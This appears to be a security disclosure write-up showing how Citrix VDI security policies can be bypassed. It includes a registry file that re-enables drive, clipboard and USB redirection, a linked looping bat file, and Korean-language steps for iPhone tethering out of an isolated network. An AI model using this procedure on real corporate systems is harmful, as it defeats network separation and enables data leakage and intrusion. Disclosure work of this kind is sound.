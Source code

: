 # You can bypass Citrix policies, but it's not a vulnerability.

## Note!!

As a result of discussions with Citrix using [VINCE](https://kb.cert.org/vince/comm/case/1022/) from cert.org, it was concluded that this is not a vulnerability(because os administrative privileges are required), so I can share this information without any concerns. For security reasons, I do not recommend using Xendesktop (VDI) in special environments such as logical network isolation or closed networks for security. If it must be used, please remove administrator privileges and make sure to install security-specific programs.

## Description

The Citrix VDI Agent(PicaSvc2.exe) seems to have a structure in which it receives policies from the Citrix management server, records them in the registry(HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\), and reads the policies from the registry to reflect the policies to the user's VDI.  
  
An attacker can bypass the Drive, Network, Clipboard, etc. security policies issued by the Citrix Policy Server through registry manipulation.  

법적인 규제로 인해 망분리 환경 혹은 폐쇄망을 사용해야 할 경우 Citrix Policy를 우회하고 해당 VDI를 인터넷에 겨
  
## POC  
1. The attacker logs into VDI and executes a Bat file ([https://windshock.github.io/bypass.zip](https://windshock.github.io/bypass.zip)) that continuously modifies the registry. Then, they close the VDI connection.  
  

Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User]

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\CdmPolicies]
"AutoConnectDrives"=dword:00000001
"AllowCdromDrives"=dword:00000001
"AllowFixedDrives"=dword:00000001
"AllowFloppyDrives"=dword:00000001
"AllowNetworkDrives"=dword:00000001
"AllowRemoveableDrives"=dword:00000001
"UseAsyncWrites"=dword:00000001
"ReadOnlyMappedDrive"=dword:00000000

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\IO]
"AutoConnectClientLptPorts"=dword:00000001
"TryMapToClientDriveLetter"=dword:00000001
"AllowFileTransfer"=dword:00000001
"AllowFileUpload"=dword:00000001
"AllowFileDownload"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\VCPolicies]
"AllowComPortRedirection"=dword:00000001
"AllowDriveRedir"=dword:00000001
"AllowLptPortRedirection"=dword:00000001
"AllowPrinterRedir"=dword:00000001
"AllowClipboardRedir"=dword:00000001
"ReadonlyClipboard"=dword:00000001
"AllowUSBRedir"=dword:00000001
"RestrictSessionClipboardWrite"=dword:00000000
"RestrictClientClipboardWrite"=dword:00000000

2. When the attacker logs back into VDI, PicaSvc2.exe communicates with the Citrix server to receive policies and records the corresponding policies in the registry.  
  
3. While PicaSvc2.exe records and reads the policies, the registry's policy values are tampered with by the Bat file previously executed by the attacker.  
  
4. PicaSv2.exe reads the policies recorded in the registry (which were manipulated by the attacker) and reflects the manipulated policies on Windows.

5. 접속하는 pc의 registry를 변경하면 네트워크가 가능한 하드웨어의 리다이렉트가 가능하다.

6. citrix 기본 정책으로 [usb class FFh](https://www.usb.org/defined-class-codes#anchor_BaseClassFFh) 은 허용되므로 iphone 레더링, 혹은 usb 형태의 wireless card를 이용하면 Usb Redirect가 허용되므로 망분리 환경에서 인터넷으로 네트워크를 연결할 수 있다.

7. iphone 테더링을 위해서는 itunes 설치 파일에서 추출한 드라이버 2개([apple network driver](https://windshock.github.io/applenetworkdriver.zip), [apple usb driver](https://windshock.github.io/appleusbdriver.zip))를 설치해야 한다.

8. citrix 접속 화면에서 iphone을 다시 redirect하면 이제 망분리 환경에서 인터넷 사용이 가능하다.

## Exploit
The attacker would have to be logged into the company's Citrix VDI(windows 10 os) after taking over the company's account.  
  
The VDI is in a state where network, printer, external hard write read, clipboard read and write, etc. are restricted.

## Impact
For companies that use VDI for logical network separation purposes, this vulnerability can lead to internal information leakage and intrusion of internal servers.

DiscoveryUse process  [monitor(https://learn.microsoft.com/en-us/sysintemonitor)](https//learn.microsoft.com/en-us/sysinternals/downloads/procmon))  to monitor the functionality of the citrix agent(PicaSvc2.exe).  
  
Check the registry that the citrix agent uses to store policy settings.  
  
View and manipulate the contents of that registry.
<!--stackedit_data:
eyJoaXN0b3J5IjpbNDY5Njk3MzQsMzYxMjU2NTcwLDkwODg0ND
IxNCwtMjExMjE1ODA4MywxODc4MTI0MzQ4XX0=
-->